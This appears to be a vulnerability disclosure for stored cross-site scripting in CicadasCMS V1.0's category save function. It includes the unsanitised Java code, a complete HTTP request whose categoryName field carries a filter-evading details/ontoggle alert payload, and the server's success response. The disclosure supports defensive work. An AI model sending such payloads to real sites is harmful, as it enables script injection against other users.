 CicadasCMS - Cross Site Scripting on (cms/service/impl/CategoryServiceImpl.java categoryName parameter) 

Vendor Homepage:
```
https://gitee.com/westboy/CicadasCMS/branches
```

Version: 

```
V1.0
```

Tested on: 

```
JAVA, Apache, MySQL
```

Affected Page:

```
cms/service/impl/CategoryServiceImpl.java
```

On this page, categoryName parameter is vulnerable to Cross Site Scripting

```
public String save(TCmsCategory pojo) {
        ...
        if(categoryMapper.insert(pojo)>0){
            return JsonUtil.toSUCCESS("分类添加成功！","category-tab",true);
        }
        return JsonUtil.toERROR("分类添加失败！");
    }
```

Request:

```
POST /system/cms/category/save HTTP/1.1
Host: 172.16.78.31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 276
Origin: http://172.16.78.31
Connection: keep-alive
Referer: http://172.16.78.31/system
Cookie: bjui_theme=blue; SESSION=15482c77-518b-4df6-a1d7-e7945a6d70ba
Priority: u=0

categoryId=&categoryName=%3Cdetails+open+ontoggle%3Dtop%5B'ale'%2B'rt'%5D(1)%3E&alias=ddd&parentId=0&translatedCategoryId=0&categoryIcon=&url=&permissionKey=&isNav=0&allowSearch=0&pageSize=3&modelId=79&alone=false&isCommon=false&content=&indexTpl=&listTpl=&contentTpl=&sortId=
```

Response:

```
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Content-Length: 130
Date: Thu, 18 Sep 2025 13:19:37 GMT

{"tabid":"category-tab","forward":"","message":"分类添加成功！","closeCurrent":true,"forwardConfirm":"","statusCode":"200"}
```
<img width="2484" height="1323" alt="image" src="https://github.com/user-attachments/assets/629ed6a4-308b-4267-a963-ffff910a5ff2" />

